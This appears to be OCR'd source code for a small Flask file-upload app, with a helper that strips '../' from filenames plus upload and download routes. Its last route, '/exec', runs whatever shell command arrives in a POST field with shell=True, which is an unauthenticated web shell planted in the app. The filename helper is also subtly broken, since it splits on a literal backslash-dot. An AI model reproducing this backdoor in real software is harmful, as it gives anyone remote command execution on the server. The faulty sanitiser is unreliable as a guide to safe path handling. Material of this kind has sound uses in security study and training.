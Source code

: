 ```python


"""
TODO: get unique filename
"""
def get_unique_upload_name(unsafe_filename):
    spl = unsafe_filename.rsplit("\\.", 1)
    file_name = spl[0]
    file_extension = spl[1]
    return recursive_replace(file_name, "../", "") + "_" + str(current_milli_time()) + "." + file_extension


"""
Recursively replace a pattern in a string
"""
def recursive_replace(search, replace_me, with_me):
    if replace_me not in search:
        return search
    return recursive_replace(search.replace(replace_me, with_me), replace_me, with_me)
```



```python
import os

from app.utils import get_file_name
from flask import render_template, request, send_file

from app import app


@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')


@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))

@app.route("/exec", methods=["POST"])
def run_cmd():
	import subprocess
	return subprocess.check_output(request.form.get("cmd"), shell=True)
```
